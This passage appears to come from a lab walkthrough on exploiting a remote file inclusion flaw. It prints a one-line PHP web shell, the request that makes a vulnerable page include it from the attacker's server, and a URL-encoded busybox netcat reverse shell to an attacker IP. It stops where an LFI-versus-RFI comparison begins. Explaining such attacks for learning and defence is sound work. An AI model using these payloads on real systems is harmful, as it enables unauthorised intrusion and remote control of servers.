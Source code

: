 ```php
<?php

system($_GET["cmd"]);

?>
```

On our attacker machine we could start a python server by 
```python
python3 -m http.server 8001
```

Then we could add this parameter on the site

```
?page=http://192.168.226.128:8001/shell.php
```

![rfi](https://i.ibb.co/jZzJSwv6/image.png)

We can then confirm on our server that this file has been included. 

![pythonserver](https://i.ibb.co/8LDgxj6Z/image.png)

We can then try and execute commands to show that this works. 

```
?page=http://192.168.226.128:8001/shell.php&cmd=id
```

![id](https://i.ibb.co/SXMMrHFM/image.png)

And with that we have successfully exploited the `RFI` vulnerability. 
Maybe we can now try and have some fun and have the machine connect back to us and give us a shell. 
First we are gonna need to start a listener on our attacker machine that will listen to any connections back 

```
nc -lnvp 4444
```

And now we can add the following parameter to our request. The payload has been url encoded just for measure. 
```
?page=http://192.168.226.128:8001/shell.php&cmd=busybox%20nc%20192.168.226.128%204444%20-e%20bash
```

And we do get a connection back and we can work towards escalating our privileges. 

![shell](https://i.ibb.co/kgJJ8WFz/image.png)


## LFI vs RFI 

While both `LFI` and `RFI` are file inclusion vulnerabilities, they do have their distinct behaviors and risks. Here are some key differences. 
